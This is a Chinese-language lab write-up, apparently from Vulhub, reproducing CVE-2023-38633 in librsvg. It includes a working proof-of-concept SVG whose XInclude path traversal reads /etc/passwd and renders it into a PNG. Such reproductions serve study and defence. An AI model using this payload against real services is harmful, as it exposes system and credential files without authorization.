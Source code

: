 # librsvg XInclude 文件包含漏洞 CVE-2023-38633

## 漏洞描述

librsvg是一个用于处理SVG图片的开源依赖库。

librsvg支持XML中的XInclude规范，可以用于加载外部内容。在librsvg 2.56.3版本以前，由于处理路径存在逻辑错误，导致攻击者可以传入一个恶意构造的SVG图片，进而读取到任意文件。

参考链接：

- https://www.canva.dev/blog/engineering/when-url-parsers-disagree-cve-2023-38633/
- https://gitlab.gnome.org/GNOME/librsvg/-/issues/996

## 环境搭建

Vulhub执行如下命令启动一个PHP服务器，其中使用librsvg 2.50.7将用户上传的SVG图片转换成PNG图片并返回：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看到上传页面。

![image-20231008151112752](images/image-20231008151112752.png)

## 漏洞复现

将路径嵌入到`<xi:include>`标签中，如下POC：

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg width="300" height="300" xmlns:xi="http://www.w3.org/2001/XInclude">
  <rect width="300" height="300" style="fill:rgb(255,255,255);" />
  <text x="10" y="100">
    <xi:include href=".?../../../../../../../../../../etc/passwd" parse="text" encoding="UTF-8">
      <xi:fallback>file not found</xi:fallback>
    </xi:include>
  </text>
</svg>
```

上传这个SVG图片：

![image-20231008151741792](images/image-20231008151741792.png)

访问返回的图片名`6522569dc29e3.png`，可查看到`/etc/passwd`已被成功读取并渲染进PNG图片：

![image-20231008153158276](images/image-20231008153158276.png)

